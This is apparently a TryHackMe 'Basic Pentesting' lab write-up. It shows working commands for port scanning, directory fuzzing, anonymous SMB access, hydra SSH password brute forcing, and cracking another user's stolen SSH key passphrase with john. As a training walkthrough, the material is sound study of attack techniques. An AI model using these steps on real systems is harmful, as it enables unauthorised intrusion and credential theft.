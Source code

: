 ```yaml
---
title: TryHackMe | Basic Pentesting
author: Zeropio
date: 2022-09-24
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/basic-pentesting
---
```


# Foothold

The nmap show:

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

In the webserver we found a plain html:

![Untitled](/assets/img/tryhackme/rooms/basic-pentesting/Untitled.png)

We can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.70.66/FUZZ'

	development             [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 65ms]
	server-status           [Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 82ms]
	                        [Status: 200, Size: 158, Words: 20, Lines: 11, Duration: 383ms]
```

There we can see some files talking about the smb. We can try listing it:

```console
zero@pio$ smbclient -N -L \\\\10.10.70.66\\                                                                

	        Sharename       Type      Comment
	        ---------       ----      -------
	        Anonymous       Disk      
	        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
	Reconnecting with SMB1 for workgroup listing.
	
	        Server               Comment
	        ---------            -------
	
	        Workgroup            Master
	        ---------            -------
	        WORKGROUP            BASIC2
```

We see an **Anonymous** folder. We can see it:

```console
zero@pio$ smbclient -N \\\\10.10.70.66\\Anonymous
	Try "help" to get a list of possible commands.
smb: \> ls
	  .                                   D        0  Thu Apr 19 18:31:20 2018
	  ..                                  D        0  Thu Apr 19 18:13:06 2018
	  staff.txt                           N      173  Thu Apr 19 18:29:55 2018
	
	                14318640 blocks of size 1024. 11087744 blocks available
smb: \> get staff.txt
```

Also, we can run `enum4linux` to see that info.

---

# Fingerprint

We the user now we can try bruteforcing into the ssh:

```console
zero@pio$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.70.66/ -t 4

	[22][ssh] host: 10.10.70.66   login: jan   password: armando
```

---

# Privilege Escalation

We found the other user in the system. There, we can see the `.ssh`{: .filepath} folder:

```console
jan@basic2:~$ ls -la ../kay/.ssh
	total 20
	drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
	drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
	-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
	-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
	-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

If we use the **id_rsa** we found that we need a passphrase. 

```console
zero@pio$ ssh kay@10.10.70.66 -i id_rsa
	Enter passphrase for key 'id_rsa':
```

We can use `john` for this:

```console
zero@pio$ ssh2john id_rsa > john_rsa
zero@pio$ john --wordlist=/usr/share/wordlists/rockyou.txt john_rsa
```

With it we can now log in in the system as **kay**.